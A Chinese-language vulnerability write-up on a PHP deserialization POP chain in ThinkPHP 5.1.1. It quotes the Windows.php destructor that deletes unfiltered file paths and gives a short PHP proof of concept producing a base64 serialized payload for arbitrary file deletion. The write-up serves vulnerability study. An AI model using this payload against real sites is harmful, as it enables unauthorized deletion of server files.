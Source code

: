 ```yaml
---
title: "Thinkphp 5.1.1 反序列化pop链构造"
id: zhfly3176
---
```


# Thinkphp 5.1.1 反序列化pop链构造

## 一、漏洞简介

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

## 二、漏洞影响

Thinkphp 5.1.1

## 三、复现过程

这个漏洞的起点是一个任意文件删除漏洞
$this->files内容没有过滤，可以传入任意数值。

```
/thinkphp/library/think/process/pipes/Windows.php
public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    } `private function removeFiles()

{

foreach ($this->files as $filename) {

if (file_exists($filename)) {

@unlink($filename);

}

}

$this->files = [];

}` 
```

poc

```
<?php
namespace think\process\pipes;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = ['1.php'];
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows())); 
```
